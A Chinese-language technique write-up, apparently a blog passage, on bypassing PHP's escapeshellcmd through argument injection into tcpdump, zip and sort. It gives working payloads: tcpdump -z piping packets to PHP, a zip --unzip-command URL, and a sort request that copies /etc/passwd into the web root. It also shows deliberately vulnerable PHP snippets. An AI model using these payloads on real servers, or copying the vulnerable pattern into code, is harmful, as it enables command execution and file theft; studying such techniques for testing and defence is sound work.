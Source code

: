 

### tcpdump

```php
<?php

system("tcpdump ".escapeshellcmd($_GET['cmd']));

?>
```

tcpdump的利用刚好最近在项目中遇上了，是一个很巧妙的利用方法，可以看一下这条命令：
```shell
tcpdump -vv -n -i any -G 1 -z /usr/bin/php -U -A udp port 1234
```
当tcpdump的参数可以控制的时候，可以对抓到的包执行`-z`参数指定的命令，`-A`参数是以ASCII的方式打印的数据包内容。所以上述命令的含义简单来说就是，在udp端口1234进行监听，对接受到的数据包以ASCII的方式传给php执行。在本地我们再用nc对上述端口发一段php代码，即可实现命令执行：
```shell
echo "<?php system('id > /tmp/zzz');?>"|nc -u 127.0.0.1 1234
```
在centos执行成功，在ubuntu不知道为什么php提示无权限执行，可能是系统原因也可能是我配置问题。

这个利用方式具体可以参考一下[这篇文章](https://insinuator.net/2019/07/how-to-break-out-of-restricted-shells-with-tcpdump/)，文章里面留了一个坑，上面tcpdump的命令直接执行是不成功的，其实文章里也提到了相关信息，只是可能最后写命令的时候写漏了，感兴趣的大佬可以尝试一下看看。



### zip

zip命令中有一个`-T`参数，当配合 `--unzip-command`参数时，可以执行系统命令。只需访问`http://127.0.0.1/?cmd=-T+--unzip-command+%27touch+zzz%27+a.zip+aaa`  ，如果`--unzip-command`被过滤了的话，可以用`-TT`代替。

```php
<?php

system("zip ".escapeshellcmd($_GET['cmd']));

?>
```



### sort

网上有读文件的利用方法，访问`http://127.0.0.1/?cmd=/etc/passwd+-o+/var/www/html/temp`，即可读到任意文件；但是我在查看sort的其他参数的时候发现，还有这个参数`--compress-program`，对它的描述是这样的：

> --compress-program=PROG
>               compress temporaries with PROG; decompress them with PROG -d

联想到前面提到的tar命令，它执行命令的参数叫`--use-compress-program`，可以猜测到这也是执行命令的参数，在网上也能找到[例子](https://gist.github.com/fginter/2d4662faeef79acdb772)，很明显就是执行命令的地方：

```shell
INPUT=$1
OUTPUT=${INPUT%.gz}.sorted.gz
export LC_ALL=C
export LC_COLLATE=C
pigz -d -c $INPUT -p 4 | sort -S 50G --parallel 20 -T /mnt/ssd/tmp --compress-program "./pigz.sh" | pigz -b 2048 -p 20 > $OUTPUT
```
